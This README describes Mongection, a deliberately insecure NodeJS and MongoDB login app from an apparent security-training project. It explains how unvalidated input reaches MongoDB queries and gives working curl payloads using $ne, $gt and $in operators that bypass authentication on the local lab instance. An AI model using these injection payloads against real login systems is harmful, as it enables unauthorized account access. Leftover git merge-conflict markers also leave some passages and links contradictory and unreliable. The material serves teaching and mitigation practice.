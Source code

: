 
# Mongection

<p align="center"><img  src="images/a1-banner.png"/></p>

Mongection is a simple NodeJS web application that simulates a login page. It has both `/register` and `/login` routes that, by communicating with a MongoDB, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-nosql-injection?)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **NoSQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/mongection
```

```sh
make install
```

Then simply visit [localhost:10001][App], as exemplified below:

<img src="images/attack0.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -X POST http://localhost:10001/register -H "Content-Type: application/json" --data '{"name":"bob", "email":"bob@example.com", "password":"bobisboss"}'
```
* Login as this second user now using command line:
```sh
curl -X POST http://localhost:10001/login -H "Content-Type: application/json" --data '{"email":"bob@example.com", "password":"bobisboss"}'
```

<<<<<<< HEAD
Then simply visit http://localhost:10001
=======
## Attack Narrative
>>>>>>> 36a1bea4720627cda761fab4d827980ea97912b0

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

<<<<<<< HEAD
Accessing the application (http://localhost:10001), the homepage have 2 buttons: 1 to do Login (http://localhost:10001/login.html) and 1 to Register a new account (http://localhost:10001/register.html).😜
=======
#### Lack of input validation allows injection of NoSQL queries
>>>>>>> 36a1bea4720627cda761fab4d827980ea97912b0

After reviewing [db.js]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/mongection/src/db.js)) file, it was possible to see that some input from users is concatenated with NoSQL queries, as shown in the following code snippets:

```js
const existUser = await User.findOne({email: email});
```

```js
const existsUser = await User.findOne({$and: [ { email: email}, { password: password} ]});
```

As no validation is being made on these variables, injected queries may be successfully executed in MongoDB. Some directives like `$ne` or `$gt`, if successfully injected, could bypass API authentication. 

#### 🔥

An attacker could create a malicious query such as `{"$ne":""}` and pass it to email and password fields. Since `$ne` is the not equals condition in MongoDB, this is querying all the entries in the logins collection where both `username` and `password` are not equal to "" (empty). 

Using `curl` on CLI interface, the malicious payload could be sent as shown bellow:

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$ne":""}, "password": {"$ne":""}}'
```

<p  align="center"><img  src="images/attack1.png"/></p>

The application will return the first user that MongoDB finds with a "Hello, Welcome Again!" message, demonstrating that authentication has been bypassed. There must be at least one user already registered in the database to recieve this message.

The same result could be reached if the attacker sent a payload using `$gt` (greater than) directive. The following query will search for entries with both `username` and `password `fields greater than "" (empty).

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$gt": ""}, "password": {"$gt": ""}}'
```
<p  align="center"><img  src="images/attack2.png"/></p>

Another possible malicious payload could use `$in` directive. The following query will iterate through every element of the given array and try each value listed for the `username` field. Also, `{"$gt":""}` will guarantee the `password` field is not evaluated.

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$in":["admin@example.com", "root@example", "ana@example.com", "bob"]}, "password": {"$gt":""}}'
```

<p  align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

* Run NoSQL queries in the database.

## PR Solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Mongection%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
<<<<<<< HEAD
[App]: http://localhost:10082
[Dirb]: https://tools.kali.org/web-applications/dirb
=======
[App]: http://localhost:10001
>>>>>>> 36a1bea4720627cda761fab4d827980ea97912b0
